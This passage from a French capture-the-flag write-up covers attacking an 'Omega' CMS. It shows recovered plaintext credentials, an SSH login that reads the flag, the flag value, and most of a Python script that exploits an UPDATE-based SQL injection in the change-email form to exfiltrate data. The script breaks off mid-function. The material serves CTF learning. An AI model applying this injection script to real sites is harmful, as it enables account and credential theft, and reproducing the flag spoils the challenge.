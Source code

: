 Nous sommes maintenant en possession du couple d'identifiant `barbok` : `r69*H27anxxc`. Nous pouvons nous connecter au CMS, ou bien essayer ces identifiants sur le service SSH:

```bash
ssh barbok@ctf.bzh -p 31380
cat flag.txt
```
```text
BZHCTF{CodeAudioNoNoob}
```

Voici le script permettant d'automatiser l'exfiltration des identifiants:

```python
import requests
import random
import string

HOST = "http://10.8.0.1/"

def get_random_string(l):
    return ''.join(random.choice(string.ascii_lowercase) for i in range(l))

def create_user(user):
    """ Create an account (user = pass) with given username. """
    s = requests.session()
    page = f"{HOST}index.php?page=register"
    data = {
        "name": user,
        "pass": user,
        "pass2": user,
        "pseudo": user,
        "mail": user,
        "secretquestion" : user,
        "secretanswer" : user,
        "ok": "S'%27i'nscrire+sur+Omega"
    }
    r = s.post(page, data=data)
    if "<b>Bravo</b>" in r.text:
        print(f"[+] Compte \"{user}\" créé.")

def login(user):
    s = requests.session()
    page = f"{HOST}index.php?page=home"
    data = {
        "login": user,
        "passlog": user,
        "hidden": "log",
        "logon": "Connexion+au+site"
    }
    r = s.post(page, data=data)
    return s

def query(user, qry):
    ## Connect with user
    s = login(user)

    ## Changemail SQLi (update), write data into question field
    payload = f"INJECTION', question = ({qry}), vipdate = '"
    page = f"{HOST}index.php?page=changemail"
    data = {
        "email": payload,
        "email2": payload,
        "reponse": user,
        "mdp": "Modifier"
    }
```